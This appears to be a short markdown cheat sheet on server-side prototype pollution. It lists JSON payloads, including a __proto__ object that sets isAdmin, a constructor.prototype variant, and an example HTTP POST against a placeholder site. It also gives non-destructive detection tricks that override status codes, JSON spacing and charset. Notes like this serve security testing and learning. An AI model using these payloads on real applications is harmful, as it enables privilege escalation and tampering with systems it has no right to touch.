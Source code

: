 
- Alternative for __proto__ is constructor.prototype and alternative to 
```
{"__proto__":{"isAdmin":"true"}}
```
is
```
"constructor": {
    "prototype": {
        "json spaces":10
    }
}
```

## SSTI prototype pollution:
Basic way:
```
POST /user/update HTTP/1.1
Host: vulnerable-website.com
...
{
    "user":"wiener",
    "firstName":"Peter",
    "lastName":"Wiener",
    "__proto__":{
        "foo":"bar"
    }
}
```
This creates a new property called foo with value bar and if foo already exists and can be edited it overrides its value.


Ways to check proto pollution in non-destructive way:
Change status code: Try for between 400-599 else it might default to 500.
Change spaces in JSON : Good as we can reset it back to default and thus not cause any actual changes. (Fixed in 4.17.4)
Charset override : If you POST this kind of request body:
```
{
    "username":"wiener",
    "role":"+AGYAbwBv-"
}
```
where `+AGYAbwBv-` is utf-7 encoded and then proto-pollute to change charset to utf-7,in the response you might see actual value reflected:
```
{
    "username":"wiener",
    "role":"foo"
}
```

